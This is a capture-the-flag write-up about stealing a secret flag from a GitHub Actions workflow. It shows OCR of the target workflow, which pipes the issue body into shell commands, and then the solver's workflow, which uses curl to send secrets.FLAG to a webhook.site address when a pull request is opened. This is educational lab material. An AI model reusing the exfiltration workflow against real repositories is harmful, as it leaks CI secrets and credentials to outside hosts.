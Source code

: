 # Comments
> You must solve the first challenge to get the answer, all you need is inside the Loby.

## About the Challenge
We were given a repository whose flags are located in the GitHub workflow


[Image extracted text: maclarel    Initial commit
Code
Blame
32
lines
(30
loc )
1.16
KB
name
Parse
review
of
teacher
3
on
4
issues:
5
types:
[opened ,
edited]
jobs:
parse-review:
runs-on:
ubuntu-latest
10
steps:
11
name :
Extract
Teacher
name
and
review
from issue body
12
id:
extract-review
13
env:
14
db_pass
S{{
secrets.FLAG }} #
Do
we still
need this
to write
to
the
DB?
15
run:
16
TEACHER-S(echo
S{{ github.event.issue.body
}}'
grep
~OP
Teacher:.*S'
17
REVIEW-S(echo
S{{ github event.issue.body }} '
grep
~VP
Teacher:
*S"
18
echo
:set-output
name-teacher:
STEACHER"
An
DCVTC]


## How to Solve?
To get the flag, I created another workflow like this

```yaml
ame: Say Hi

 on: [pull_request]

 jobs:
   build:

     runs-on: ubuntu-latest

     steps:
     - uses: actions/checkout@v2
     - name: Say Hi
       run: |
         curl "https://webhook.site/b7c7b30c-1536-4672-a15c-646bcd1ef28e?username=${{ secrets.FLAG }}"
```

This workflow will send the flag to `webhook.site` using `curl` command, and then create a pull request to trigger the workflow


[Image extracted text: Request Details
Permalink
Raw content
Copy as
Headers
GET
https://webhook site/b7c7b3Oc-1536-4672-a15c-646bcd1ef28e?usernam
connection
close
e-EKOmOve_yOuR_bOdy
accept
*x
Host
20.42.13.21
Whois
Shodan
Netify   Censys
user-agent
curl/7.81.0
Date
01/11/2023 22.32.49 (2 days ago)
host
webhook. site
Size
bytes
content-length
ID
a30b17dc-0079-4ezb-ae8g-eabc345ab0e8
content-type
Files
Query strings
Form values
username
EKOmOve_yduR_bOdy
(empty)
No content]


```
EKO{m0ve_y0uR_b0dy}
```